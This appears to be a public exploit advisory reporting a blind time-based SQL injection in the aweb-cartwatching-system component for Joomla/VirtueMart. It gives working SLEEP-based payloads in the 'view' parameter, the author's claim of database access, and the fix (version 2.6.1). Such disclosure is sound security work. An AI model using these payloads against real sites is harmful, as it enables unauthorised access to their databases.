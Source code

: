#Exploit Title: Sqli Blind Timebased on Joomla + Viertuemart + aweb-cartwatching-system/<= 2.6.0
#Date: 28-12-2016
#Software Link: http://awebsupport.com/products/aweb-cartwatching-system
#Exploit Author: Javi Espejo(qemm)
#Contact: http://twitter.com/javiespejo
#Website: http://raipson.com
#CVE: REQUESTED
#Category: webapps
 
1. Description
   
Any remote user can access to the victim server trough an SQLI Blind Injection on a component of aweb_cartwatching_system and aweb_cart_autosave
This is the code that has the parameters with the parameters not sanitized (IMAGE 1 )  

2. Proof of Concept

I can access to the database through queries with the Timebased vector.
I test with a client environment and I found that the paremeter POST view on http://test.xxxxx.com/es/index.php responds to a vector as follows:
 The first request was
 http://test.xxxxx.com/es/index.php

 POST parameters:
 option
 view
 task
 
Then I saw an strange behavior on the web and then I see that the parameter view responds to an easy timebased query
http://test.xxxxx.com/es/index.php?option=com_virtuemart&view=categorysearch%27+%2F+sleep%285%29+%2F+%27&task=smartSearch


Later I found the next payload

option=com_virtuemart&view=categorysearch' RLIKE (SELECT * FROM (SELECT(SLEEP(5)))sgjA) AND 'jHwz'='jHwz&task=smartSearch and it works and I can access to every database on the client system launching other queries.
   
3. Solution:
   
Update to version 2.6.1 from the update center of joomla.
The Joomla vel publish the vulnerability on
Answer from Joomla VEL "We have added it to the VEL here: https://vel.joomla.org/resolved/1897-aweb-cart-watching-system-2-6-0"
http://awebsupport.com/

Regards 

Qemm
